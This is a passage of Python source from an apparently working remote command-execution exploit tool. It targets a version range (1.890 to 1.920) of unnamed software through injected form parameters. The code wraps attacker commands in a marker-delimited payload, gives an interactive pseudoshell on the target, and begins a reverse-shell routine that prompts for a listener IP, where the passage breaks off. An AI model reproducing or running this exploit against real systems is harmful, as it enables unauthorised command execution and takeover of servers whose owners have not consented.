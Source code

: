 ```python
		params = {
			#Param for 1.890
			"expired":command,
			#Params for 1.900-1.920
			"new1":token,
			"new2":token,
			"old":command
		}
		try:
			r = self.session.post(target, data=params, headers=headers, timeout=5)
		except:
			return "Error"
		return(r.content.decode())


	def pseudoShell(self):
		print()
		if not self.args.force:
			self.success("The target is vulnerable and a pseudoshell has been obtained.\n"
						"Type commands to have them executed on the target.")
			self.info("Type 'exit' to exit.")
			self.info("Type 'shell' to obtain a full reverse shell (UNIX only).")
		else:
			self.warn("Warning: No checks have been carried out -- proceed with caution!")
		print()
		while True:
			try:
				command = prompt("# ", history=FileHistory("commands.txt"))
			except KeyboardInterrupt:
				self.info("Exiting...\n")
				sys.exit(0)
			if command.lower() == "quit" or command.lower() == "exit":
				self.info("Exiting...\n")
				sys.exit(0)
			elif command.lower() == "shell":
				self.shell()
				continue
			elif len(command) == 0:
				continue
			results = self.exploitVuln(f"echo SPLIT; {command} 2>&1; echo SPLIT")
			if "SPLIT" in results:
				print(results.split("SPLIT")[1].strip())
			else:
				self.fail("Failed to execute command", False)
				if self.args.force:
					print("(This is why checks exist)")

	def shell(self):
		print()
		self.info("Starting the reverse shell process")
		self.warn("For UNIX targets only!")
		self.warn("Use 'exit' to return to the pseudoshell at any time")
		#Get IP
		while True:
			ip = input("Please enter the IP address for the shell: ")
			if ip.lower() == "exit":
				return
			try:
				socket.inet_aton(ip)
			except socket.error:
				self.fail("Invalid IP address\n", False)
				continue
			break
```